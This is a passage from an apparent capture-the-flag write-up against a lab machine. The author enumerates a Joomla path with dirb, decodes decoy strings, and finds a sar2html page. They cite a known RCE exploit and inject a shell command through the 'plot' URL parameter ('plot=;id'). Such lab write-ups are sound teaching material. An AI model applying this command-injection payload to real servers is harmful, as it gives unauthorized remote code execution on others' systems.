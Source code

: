 All the disallowed paths give a 404 not found error.

A closer look at the following code:

<pre>079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075</pre>

This is ASCII, you can convert to base64, md5 but again it's another rabbit hole.

Here is the /joomla repository:

![joomla](https://imgur.com/FNrkEUN.png)

I want to run a dirb scan on this url to find more information:

<pre>dirb http://10.10.208.159/joomla/</pre>

![dirb joomla](https://imgur.com/heGJbKK.png)

There are a few rabbit holes again:

**_archive/**

![archive](https://imgur.com/KGMBQQc.png)

**_database/**

![database](https://imgur.com/ocIIhxN.png)

This is a Caeser Cypher, using a key of 2:

<pre>Just messing around.</pre>

**_files/**

![files](https://imgur.com/x3BSo2K.png)

From base64:

<pre>Whopsie daisy.</pre>

**_test/**

![test](https://imgur.com/mhfdZpx.png)

Here we are presented with a sar2html tool. I searched this up online and found an exploit. 

Here is an exploitDB page on an RCE exploit:

[Exploit DB](https://www.exploit-db.com/exploits/47204)

We can execute our own command using the URL:

<pre>/index.php?plot=;&lt;command-here&gt;</pre>

Then "press "select # host" then your command's output will appear bottom side of the scroll screen."

I have entered "id" into the url:

<pre>10.10.208.159/joomla/_test/index.php?plot=;id</pre>
